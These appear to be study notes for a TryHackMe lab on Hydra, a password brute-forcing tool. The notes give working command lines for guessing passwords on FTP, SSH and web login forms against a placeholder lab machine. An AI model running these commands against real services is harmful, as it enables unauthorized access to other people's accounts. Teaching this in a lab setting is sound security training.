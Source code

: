 https://tryhackme.com/room/hydra

apt install hydra

Hydra is a brute force online password cracking program, a quick system login password “hacking” tool.

Hydra can run through a list and “brute force” some authentication services. Imagine trying to manually guess someone’s password on a particular service (SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.


- For example, if we wanted to brute force FTP with the username being user and a password list being passlist.txt, we’d use the following command:
$ hydra -l user -P passlist.txt ftp://MACHINE_IP


- SSH
$ hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh

- Post Web Form
$ sudo hydra <username> <wordlist> MACHINE_IP http-post-form "<path>:<login_credentials>:<invalid_response>"

- Below is a more concrete example Hydra command to brute force a POST login form:
$ hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V


